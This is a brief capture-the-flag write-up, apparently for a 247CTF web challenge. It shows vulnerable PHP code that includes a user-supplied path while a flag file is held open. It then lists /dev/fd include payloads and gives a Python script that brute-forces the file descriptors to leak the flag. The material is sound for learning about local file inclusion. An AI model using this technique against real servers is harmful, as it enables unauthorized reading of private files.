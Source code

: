 ```
<?php
  $fp = fopen("/tmp/flag.txt", "r");
  if($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['include']) && strlen($_GET['include']) <= 10) {
    include($_GET['include']);
  }
  fclose($fp);
  echo highlight_file(__FILE__, true);
?>
```

php subroutine process directory:

/dev/fd

so brute force attack is available maybe

/?include=/dev/fd/1
/?include=/dev/fd/2
/?include=/dev/fd/3
..........

create exploit:

```
#!/usr/bin/python3

import sys
import requests
import re

if len(sys.argv) != 2:
  print("[!]Require URL to Attack...")
  sys.exit()

url = sys.argv[1]

parameter = "?include=/dev/fd/"

for i in range(0,11):
    req_url = url + parameter + str(i)
    res = requests.get(req_url)
    print(f"count: {str(i)}")

    if "247CTF" in res.text:
        reg = re.search(r"247CTF.+",res.text)
        print(res.text)
        print(reg.group())
        
```






